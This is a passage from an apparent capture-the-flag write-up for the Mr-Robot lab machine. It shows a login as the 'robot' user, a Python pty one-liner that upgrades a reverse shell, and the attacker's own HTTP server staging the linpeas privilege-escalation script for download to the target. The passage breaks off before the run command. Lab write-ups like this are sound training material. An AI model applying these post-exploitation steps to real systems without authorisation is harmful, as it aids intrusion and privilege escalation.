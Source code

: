 ![IMG-26](/assets/Mr-Robot-CTF-Images/Mr-Robot-CTF%20(19).png)

We can now login as the robot user:

![IMG-27](/assets/Mr-Robot-CTF-Images/Mr-Robot-CTF%20(20).png)

Again having to run the tty shell python command

```python
python -c 'import pty; pty.spawn("/bin/bash")'
```

![IMG-28](/assets/Mr-Robot-CTF-Images/Mr-Robot-CTF%20(21).png)

![IMG-29](/assets/Mr-Robot-CTF-Images/Mr-Robot-CTF%20(27).png)



## Privilege escalation

To escalate privelages on the machine, I quickly spun up a python server, staging the linpeas script.

```bash
cd /usr/share/peass/linpeas
python3 -m http.server 80
```

Back on the target machine, we can run linpeas with the following command:
